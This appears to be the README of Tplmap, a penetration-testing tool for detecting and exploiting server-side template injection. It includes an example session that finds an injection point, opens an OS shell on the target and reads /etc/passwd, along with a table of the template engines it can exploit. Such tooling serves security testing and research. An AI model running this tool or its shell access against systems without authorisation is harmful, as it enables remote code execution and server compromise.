 Tplmap
======

Tplmap (short for _Template Mapper_) is a tool that automate the process of detecting and exploiting Server-Side Template Injection vulnerabilities (SSTI). 

This can be used by developers, penetration testers, and security researchers to detect and exploit vulnerabilities related to the template injection attacks.

The technique can be used to compromise web servers' internals and often obtain Remote Code Execution (RCE), turning every vulnerable application into a potential pivot point.

The modular approach allows any contributor to extend the support to other templating engines or introduce new exploitation techniques. The majority of the techniques currently implemented came from the amazing research done by [James Kett, PortSwigger][1].

> The application is currently under heavy development and misses some functionalities.

Example
--------

```
$ ./tplmap.py -u 'http://www.target.com/app?id=*'
[+] Found placeholder in GET parameter 'id'
[+] Testing reflection with tag ${} and variances to escape code context
[+] Testing reflection with tag {{}} and variances to escape code context
[+] Testing reflection with tag {} and variances to escape code context
[+] Testing reflection with tag #set($p=)\n$p\n
[+] Detected unreliable reflection with tag #set($p=)\n$p\n, continuing
[+] Confirmed reflection with tag '\n= \n' by Jade plugin
[+] Tplmap identified the following injection point:

  Engine: Jade
  Template: \n= \n
  Context: text
  OS: linux
  Capabilities:
    Code evaluation: yes, javascript code
    OS command execution: yes
    File write: yes
    File read: yes

[+] Rerun tplmap providing one of the following options:
    --os-cmd or --os-shell to access the underlying operating system
    --upload LOCAL REMOTE to upload files to the server
    --download REMOTE LOCAL to download remote files

$ ./tplmap.py -u 'http://www.target.com/app?id=*' --os-shell
[+] Run commands on the operating system.
linux $ whoami
www-data
linux $ ls -al /etc/passwd
-rw-r--r--  1 root  wheel  5925 16 Sep  2015 /etc/passwd
linux $
  
```

Supported template engines
--------------------------

| Template engine    | Detection | command execution | Code evaluation | File read | File write |
|--------------------|-----------|-------------------|-----------------|-----------|------------|
| Mako               |  yes      | yes               | python          | yes       | yes        |
| Jinja2             |  yes      | yes               | python          | yes       | yes        |
| Jade               |  yes      | yes               | javascript      | yes       | yes        |
| Smarty (unsecured) |  yes      | yes               | PHP             | yes       | yes        |
| Freemarker         |  yes      | yes               | no              | yes       | yes        |
| Velocity           |  yes      | no                | no              | no        | no         |
| Twig               |  yes      | no                | no              | no        | no         |
| Smarty (secured)   |  yes      | no                | no              | no        | no         |


[1]: http://blog.portswigger.net/2015/08/server-side-template-injection.html
